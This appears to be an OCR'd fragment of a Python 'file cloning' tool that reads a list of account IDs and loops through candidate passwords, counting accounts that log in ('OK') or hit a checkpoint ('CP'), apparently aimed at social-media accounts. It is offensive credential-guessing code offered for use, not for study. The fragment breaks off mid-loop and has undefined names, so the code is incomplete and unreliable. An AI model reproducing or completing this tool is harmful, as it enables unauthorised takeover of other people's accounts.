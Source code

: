 def banner():

	print(banner)

def hasil(ok,cp):

	if len(ok) != 0 or len(cp) != 0:

		print('\033[1;96m The Prosess Done Is Completed')

		print('\n\033[1;92mTotal OK : %s \n \033[1;91m Total CP : %s'%(str(len(ok)),str(len(cp))));input(' Press Enter To Go Back ');main()

	else:

		print('\n\033[0mYour Ip Is Blocked Or Blacklist Restart Your Mobile ')

		exit()

		

class __crack__:

	def __init__(self):

		self.id = []

	def plerr(self):

		os.system("clear");print(banner)

		print('          \033[1;32m[ File CLONING CP/OK IDS MIX ] ')

		print(50*"\033[1;97m_")

		try:

			self.apk = input("\033[1;37m[+] \033[1;36mFILE PATH\033[1;31m : \033[1;32m ")

			print ('')

			self.id = open(self.apk).read().splitlines()

		except:

			print('\n \033[1;37m[!] \033[1;31mFile Not Found In Storage')

			input('\n\033[1;37m[*] \033[1;36mPress Enter To Back');main()

		self.__pler__() 

	def __mbasic__(self, user, _sempak_):

		global ok,cp,loop

		sys.stdout.write(f"\r \x1b[1;97m[\033[1;36mPHD\033[1;37m] {loop}/{len(self.id)} \033[1;37m[\033[1;36mTOTAL-Idz\033[1;37m] \033[1;37m[\033[1;36m{len(ok)}\033[1;37m]")

		sys.stdout.flush()

		for pw in _sempak_:

			pw = pw.lower()

			try: os.mkdir('')
